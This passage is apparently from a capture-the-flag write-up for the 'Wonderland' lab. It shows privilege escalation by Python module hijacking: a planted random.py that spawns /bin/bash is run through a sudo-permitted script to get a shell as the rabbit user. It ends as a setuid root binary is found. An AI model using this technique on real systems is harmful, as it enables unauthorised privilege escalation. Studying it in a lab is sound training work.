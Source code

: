 This file seems to contain a long list of text from the story wrapped by some python to randomly pick a few lines and print them out. Let's try it:

```text
alice@wonderland:~$ python3 walrus_and_the_carpenter.py
The line was:    No birds were flying over head —
The line was:    For some of us are out of breath,
The line was:    And you are very nice!"
The line was:    Their coats were brushed, their faces washed,
The line was:    And you are very nice!"
The line was:    "If this were only cleared away,"
The line was:    They thanked him much for that.
```

I notice the file doesn't have an absolute path for the first line where it imports the python module **random**. We can exploit this, and force it to load our own file instead.

We need to find a way to use this to escalate our privileges. Check users permissions:

```text
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Looks like our path is to exploit the walrus python script and run it as the rabbit user to get a shell. First we create our own file that will get run by the script:

```text
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")
```

## Privilege Escalation

Now we run the script as the rabbit user:

```text
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ sh
```

We now have a shell as rabbit, lets look in their home folder:

```text
rabbit@wonderland:~$ ls -l /home/rabbit/
total 20
-rwsr-sr-x 1 root root 16816 May 25 17:58 teaParty
```

We have a file that is owned by root, but readable by rabbit. Looks like we have another level of escalation needed. Let's see what it does:
